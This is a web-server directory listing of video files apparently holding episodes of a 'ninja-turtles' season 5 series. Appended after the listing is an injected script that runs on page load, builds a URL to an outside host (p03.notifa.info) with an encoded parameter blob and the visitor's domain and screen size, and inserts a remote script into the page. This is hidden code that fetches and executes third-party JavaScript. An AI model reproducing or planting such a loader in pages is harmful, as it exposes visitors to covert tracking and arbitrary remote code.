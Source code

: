 <a href="ninja-turtles-s05e02.flv">ninja-turtles-s05e02.flv</a>                           27-Sep-2012 15:52            60445714
<a href="ninja-turtles-s05e03.flv">ninja-turtles-s05e03.flv</a>                           27-Sep-2012 15:52            64211033
<a href="ninja-turtles-s05e04.flv">ninja-turtles-s05e04.flv</a>                           27-Sep-2012 15:52            64309893
<a href="ninja-turtles-s05e05.flv">ninja-turtles-s05e05.flv</a>                           27-Sep-2012 15:52            64329941
<a href="ninja-turtles-s05e06.flv">ninja-turtles-s05e06.flv</a>                           27-Sep-2012 15:52            63930247
<a href="ninja-turtles-s05e07.flv">ninja-turtles-s05e07.flv</a>                           27-Sep-2012 15:53            64067259
<a href="ninja-turtles-s05e08.flv">ninja-turtles-s05e08.flv</a>                           27-Sep-2012 15:53            64126238
<a href="ninja-turtles-s05e09.flv">ninja-turtles-s05e09.flv</a>                           27-Sep-2012 15:53            64413836
<a href="ninja-turtles-s05e10.flv">ninja-turtles-s05e10.flv</a>                           27-Sep-2012 15:53            63966713
<a href="ninja-turtles-s05e11.flv">ninja-turtles-s05e11.flv</a>                           27-Sep-2012 15:53            64403893
<a href="ninja-turtles-s05e12.flv">ninja-turtles-s05e12.flv</a>                           27-Sep-2012 15:54            64123797
<a href="ninja-turtles-s05e13.flv">ninja-turtles-s05e13.flv</a>                           27-Sep-2012 15:54            64285394
<a href="ninja-turtles-s05e14.flv">ninja-turtles-s05e14.flv</a>                           27-Sep-2012 15:54            64335570
<a href="ninja-turtles-s05e15.flv">ninja-turtles-s05e15.flv</a>                           27-Sep-2012 15:54            64166761
<a href="ninja-turtles-s05e16.flv">ninja-turtles-s05e16.flv</a>                           27-Sep-2012 15:54            64023988
<a href="ninja-turtles-s05e17.flv">ninja-turtles-s05e17.flv</a>                           27-Sep-2012 15:55            64081195
<a href="ninja-turtles-s05e18.flv">ninja-turtles-s05e18.flv</a>                           27-Sep-2012 15:55            64055129
<a href="ninja-turtles-s05e19.flv">ninja-turtles-s05e19.flv</a>                           27-Sep-2012 15:55            64177767
<a href="ninja-turtles-s05e20.flv">ninja-turtles-s05e20.flv</a>                           27-Sep-2012 15:55            64324977
</pre><hr><script type="text/javascript">if (self==top) {function netbro_cache_analytics(fn, callback) {setTimeout(function() {fn();callback();}, 0);}function sync(fn) {fn();}function requestCfs(){var idc_glo_url = (location.protocol=="https:" ? "https://" : "http://");var idc_glo_r = Math.floor(Math.random()*99999999999);var url = idc_glo_url+ "p03.notifa.info/3fsmd3/request" + "?id=1" + "&enc=9UwkxLgY9" + "&params=" + "4TtHaUQnUEiP6K%2fc5C582PbDUVNc7V%2bdaYT9fxxDY9QphhZNFenZ9L17vUTcn%2bGdc9POGOb5TPhhPgpL0UfY7GUFmutCtbAG%2b7P5Wm2046%2fZVwReRL0SG8x378wrETFZzK6a71hmP5Z8RohypXfUf6PT1rRN2afKMeama46Z2AReBcmtqjg%2fPI0JuWz0mEIOntFEw9kSZWied44gGu8WkS6ega%2fTFr4QS3BO64Mo%2ffK%2bYvEToy30qGrdzDoQL%2fHvnggPLkWOCsdATvowIadIhHOusFUdKyt5cAzfmhSSBcdMEtKwg7%2boPaRywOhcvnYOXtHARJafo8ljvByVxgdbqsOBrQnrl0Y%2bI4gdx7CSee99dMUUOg%2bEA20LVfLBfVcUPVkOFMEoOgVhgweX15cxM8ge4JzeZ1Zfb1xqONgEwYHuM9svmGL4ln8XV2vAGvpU3R4%2fEqBamaI4HgqTsEUMBIMsrZVHbztrLrnXEXALzBw1wGfdNKPA5SHO7UbwVYHumUC3LfHYOn4%3d" + "&idc_r="+idc_glo_r + "&domain="+document.domain + "&sw="+screen.width+"&sh="+screen.height;var bsa = document.createElement('script');bsa.type = 'text/javascript';bsa.async = true;bsa.src = url;(document.getElementsByTagName('head')[0]||document.getElementsByTagName('body')[0]).appendChild(bsa);}netbro_cache_analytics(requestCfs, function(){});};</script></body>
</html>
